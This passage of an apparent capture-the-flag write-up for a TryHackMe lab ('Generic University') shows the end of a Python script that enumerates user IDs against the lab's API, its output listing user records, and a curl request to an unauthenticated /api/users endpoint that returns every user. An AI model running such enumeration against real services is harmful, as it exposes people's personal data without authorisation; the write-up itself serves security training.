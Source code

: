 ```py
        print(f'[*] Trying user ID: {userId}', end='\r')
        thread = Thread(target=requester.sendRequest, args=(userId,))
        thread.start()
        sleep(0.3)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Generic-University)-[2023.02.21|21:26:10(HKT)]
└> python3 api_users_enumeration.py
[+] Found valid user ID: 2
[+] user ID 2 data: {"id":2,"name":"Barbara Bauch","email":"pabshire@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 1
[+] user ID 1 data: {"id":1,"name":"Javon Moen","email":"johnathon71@rolfson.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 5
[+] user ID 5 data: {"id":5,"name":"Taya Kohler","email":"hspinka@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 4
[+] user ID 4 data: {"id":4,"name":"Jalon Fisher","email":"tmiller@hotmail.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 3
[+] user ID 3 data: {"id":3,"name":"Muriel Mante","email":"jgerlach@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 6
[+] user ID 6 data: {"id":6,"name":"IT Nicola Langworth","email":"laura97@douglas.net","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":1}
[+] Found valid user ID: 7
[+] user ID 7 data: {"id":7,"name":"Dr Judge Klein","email":"milo.goyette@medhurst.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":3}
```

We successfully enumerated all users!

> Note: We can also use the API endpoint `/api/users` to list all users.

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Generic-University)-[2023.02.22|13:32:53(HKT)]
└> curl http://generic-university.thm/api/users  
[{"id":1,"name":"Javon Moen","email":"johnathon71@rolfson.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":2,"name":"Barbara Bauch","email":"pabshire@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":3,"name":"Muriel Mante","email":"jgerlach@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":4,"name":"Jalon Fisher","email":"tmiller@hotmail.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":5,"name":"Taya Kohler","email":"hspinka@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":6,"name":"IT Nicola Langworth","email":"laura97@douglas.net","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":1},{"id":7,"name":"Dr Judge Klein","email":"milo.goyette@medhurst.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":3}]
```
